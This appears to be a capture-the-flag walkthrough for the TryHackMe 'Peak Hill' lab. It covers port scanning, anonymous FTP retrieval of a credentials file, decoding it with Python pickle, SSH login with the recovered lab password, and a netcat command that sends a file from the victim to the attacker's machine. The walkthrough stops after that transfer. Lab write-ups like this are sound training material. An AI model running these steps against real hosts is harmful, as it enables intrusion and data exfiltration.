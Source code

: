 # Peak Hill

**Room Link:** [**https://tryhackme.com/room/peakhill**](https://tryhackme.com/room/peakhill)



## **Scans**

Initial scan

**Kali**

```
nmap -A $VICTIM
```

<figure><img src="../../.gitbook/assets/image (775).png" alt=""><figcaption></figcaption></figure>

Longer scan

**Kali**

```
nmap -sV -sT -O -p 1-65535 $VICTIM
```

<figure><img src="../../.gitbook/assets/image (777).png" alt=""><figcaption></figcaption></figure>

## TCP/21 - **FTP**

**Kali**

```
ftp $VICTIM 21
username: anonymous
```

There was just one file with no info.

**Kali(ftp)**

```
ls -lah
binary
passive
get test.txt
get .creds
```

<figure><img src="../../.gitbook/assets/image (776).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (778).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (779).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (781).png" alt=""><figcaption></figcaption></figure>

#### Decrypt Program

#### read.py

```
import pickle

with open("download.dat", "rb") as file:
	pickle_data = file.read()
	creds = pickle.loads(pickle_data)
	print(creds)
```

**Kali**

```
python read.py
```

<figure><img src="../../.gitbook/assets/image (782).png" alt=""><figcaption></figcaption></figure>

**output.txt**

```
[('ssh_pass15', 'u'), ('ssh_user1', 'h'), ('ssh_pass25', 'r'), ('ssh_pass20', 'h'), ('ssh_pass7', '_'), ('ssh_user0', 'g'), ('ssh_pass26', 'l'), ('ssh_pass5', '3'), ('ssh_pass1', '1'), ('ssh_pass22', '_'), ('ssh_pass12', '@'), ('ssh_user2', 'e'), ('ssh_user5', 'i'), ('ssh_pass18', '_'), ('ssh_pass27', 'd'), ('ssh_pass3', 'k'), ('ssh_pass19', 't'), ('ssh_pass6', 's'), ('ssh_pass9', '1'), ('ssh_pass23', 'w'), ('ssh_pass21', '3'), ('ssh_pass4', 'l'), ('ssh_pass14', '0'), ('ssh_user6', 'n'), ('ssh_pass2', 'c'), ('ssh_pass13', 'r'), ('ssh_pass16', 'n'), ('ssh_pass8', '@'), ('ssh_pass17', 'd'), ('ssh_pass24', '0'), ('ssh_user3', 'r'), ('ssh_user4', 'k'), ('ssh_pass11', '_'), ('ssh_pass0', 'p'), ('ssh_pass10', '1')]
```



**Kali**

```
cat output.txt | sed "s/), (/)\n/g" | grep ssh_user
```

<figure><img src="../../.gitbook/assets/image (783).png" alt=""><figcaption></figcaption></figure>

**Username**

```
gherkin
```

**Kali**

```
cat output.txt | sed "s/), (/)\n/g" | grep ssh_pass
```

<figure><img src="../../.gitbook/assets/image (784).png" alt=""><figcaption></figcaption></figure>

**Password**

```
p1ckl3s_@11_@r0und_th3_w0rld
```



## TCP/22 - **SSH**

**Kali**

```
ssh gherkin@$VICTIM
Password:p1ckl3s_@11_@r0und_th3_w0rld
```

<figure><img src="../../.gitbook/assets/image (785).png" alt=""><figcaption></figcaption></figure>





## Netcat

**Kali(receiving)**

```
nc -l -p 1234 > cmd_service.pyc
```

**Victim(sending)**

```
nc -w 3 $KALI 1234 < cmd_service.pyc
```































